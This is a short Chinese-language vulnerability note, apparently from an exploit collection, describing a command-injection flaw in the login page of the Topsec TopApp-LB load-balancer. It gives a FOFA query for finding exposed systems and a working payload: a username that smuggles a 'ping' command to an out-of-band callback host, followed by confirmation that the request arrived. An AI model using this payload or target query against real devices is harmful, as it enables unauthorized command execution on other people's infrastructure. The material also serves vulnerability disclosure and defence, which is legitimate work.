 # 天融信 TopApp-LB 命令执行漏洞

## 漏洞描述

天融信负载均衡TopApp-LB系统存在任意命令执行

## 漏洞影响

```
天融信负载均衡TopApp-LB
```

## FOFA

```
app="天融信-TopApp-LB-负载均衡系统"
```

## 漏洞复现

登录界面中存在命令执行



账号:**1;ping 6km5dk.ceye.io;echo**

密码:**任意**



![](./images/202202091921374.png)



成功收到请求



![](./images/202202091921379.png)